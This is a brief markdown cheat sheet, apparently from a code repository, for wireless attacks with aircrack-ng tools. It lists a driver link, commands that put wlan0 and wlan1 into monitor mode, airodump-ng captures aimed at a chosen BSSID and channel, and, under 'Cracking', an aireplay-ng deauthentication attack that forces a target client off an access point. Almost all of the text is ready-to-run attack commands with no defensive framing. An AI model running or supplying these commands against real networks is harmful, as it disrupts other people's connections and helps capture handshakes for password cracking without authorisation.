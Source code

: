 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan1
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan1
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --band abg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
